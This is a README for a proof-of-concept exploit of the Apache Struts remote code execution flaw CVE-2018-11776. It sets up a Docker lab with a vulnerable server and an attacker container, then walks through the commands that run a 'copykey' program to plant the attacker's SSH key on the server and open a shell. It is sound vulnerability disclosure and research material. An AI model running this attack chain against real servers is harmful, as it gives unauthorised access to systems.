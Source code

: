 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

Because we have Struts running in docker with no graphics, it isn't convenient to pop a calculator. So, instead, we will use the vulnerability to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify this PoC to do that.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -i -t struts-server
```

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, build `copykey.c` and use it to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
gcc copykey.c -o copykey
./copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!
